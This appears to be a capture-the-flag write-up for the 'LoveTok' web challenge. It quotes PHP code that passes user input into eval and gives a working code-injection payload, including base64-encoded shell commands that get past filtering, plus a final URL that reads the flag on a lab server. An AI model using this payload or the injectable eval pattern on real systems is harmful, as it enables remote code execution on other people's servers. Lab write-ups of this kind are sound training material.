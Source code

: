 # LoveTok

#### We are given a docker container and a ip and port to connect to trough http

![[Pasted image 20220424152325.png]]

* Looking trough the php code of the site, we find this exploatable part:*

~~~php
 public function __construct($format)

 {

 $this->format = addslashes($format);

  

 [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];

 $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";

 }


 public function getTime()

 {

 eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');

 return isset($time) ? $time : 'Something went terribly wrong';

 }
~~~

* After some googling, found this link : https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php *

* The exploit looks like this : 

~~~
<url>?format=var_dump(${eval($_GET[1])}=123)&1=system( < payload > );
~~~

* Testing the vuln.. it works.
![[Pasted image 20220424153957.png]]

* Now to forge the payload:
	* Location of flag.txt is not in the root www folder, but in the root directory and has a randomised name: ( we know this from the docker container)

~~~bash
	chmod 600 /entrypoint.sh
	FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
	mv /flag /flag$FLAG
	exec "$@"
~~~


* So first off, we try to see what the flag name is : \<payload> = <Mark>"ls /"</Mark> -> Application crashed
* Try to url encode..  \<payload> = <Mark>"ls%20%2F"</Mark>  -> Application crashed
* Try to base64 encode.. \<payload> = <Mark>"base64_decode(bHMgLw)"</Mark> 
		* Worked! 
		* ![[Pasted image 20220424154336.png]]
	* Next step is to just read the flag... 
![[Pasted image 20220424154655.png]]


Final payload : 
~~~bash
http://134.209.191.159:31222/?format=var_dump(${eval($_GET[1])}=123)&1=system(base64_decode(Y2F0IC9mbGFneDU3MVA));
~~~
